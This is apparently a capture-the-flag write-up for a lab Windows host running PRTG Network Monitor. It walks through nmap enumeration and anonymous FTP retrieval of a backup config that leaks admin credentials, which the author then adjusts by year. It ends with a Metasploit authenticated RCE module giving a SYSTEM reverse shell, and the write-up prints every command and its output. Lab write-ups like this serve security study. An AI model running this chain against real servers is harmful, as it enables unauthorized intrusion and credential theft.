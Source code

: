 Target: 10.10.10.152

## Enumeration:

nmap
```
$ sudo nmap -sC -sV 10.10.10.152

Nmap scan report for 10.10.10.152
Host is up (0.095s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE      VERSION
21/tcp  open  ftp          Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-03-19  12:18AM                 1024 .rnd
| 02-25-19  10:15PM       <DIR>          inetpub
| 07-16-16  09:18AM       <DIR>          PerfLogs
| 02-25-19  10:56PM       <DIR>          Program Files
| 02-03-19  12:28AM       <DIR>          Program Files (x86)
| 02-03-19  08:08AM       <DIR>          Users
|_02-25-19  11:49PM       <DIR>          Windows
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp  open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-server-header: PRTG/18.1.37.13946
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-trane-info: Problem with XML parsing of /evox/about
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -1s, deviation: 0s, median: -1s
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
```

checking 10.10.10.152

![index](netmon1.png)

### Findings:Looking for attack vectors

Ftp can be accessed through Anonymous FTP login.
Traverse and find website config files.


## Foothold:

[Location of Paessler config files](https://kb.paessler.com/en/topic/463-how-and-where-does-prtg-store-its-data)

ftp login
```
$ ftp 10.10.10.152

ftp> cd "Programdata"\\Paessler\\"PRTG Network Monitor"

ftp> get "PRTG Configuration.old.bak"

local: PRTG Configuration.old.bak remote: PRTG Configuration.old.bak
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
1153755 bytes received in 2.80 secs (402.3314 kB/s)
```

looking for creds
```
$ less "PRTG Configuration.old.bak"

<snip>
<dbpassword>
    <!-- User: prtgadmin -->
     PrTg@dmin2018
</dbpassword>
<snip>
```

Loot:

`prtgadmin:PrTg@dmin2018`

trying password on a different year

prtgadmin:PrTg@dmin2019

trying credentials

![login](netmon2.png)

Metasploit
```
$ msfconsole
```

searching for prtg exploits
```
search prtg

Matching Modules
================

   #  Name                                         Disclosure Date  Rank       Check  Description
   -  ----                                         ---------------  ----       -----  -----------
   0  exploit/windows/http/prtg_authenticated_rce  2018-06-25       excellent  Yes    PRTG Network Monitor Authenticated RCE


use exploit/windows/http/prtg_authenticated_rce
set RHOSTS 10.10.10.152
set LHOST tun0
set ADMIN_USERNAME prtgadmin
set ADMIN_PASSWORD PrTg@dmin2019
run
```

```
meterpreter > getuid

Server username: NT AUTHORITY\SYSTEM
```

```
meterpreter > cd C:\\Users\\Public

meterpreter > cat user.txt

<redacted>

meterpreter > cd C:\\Users\\Administrator\\Desktop

meterpreter > cat root.txt

<redacted>
```
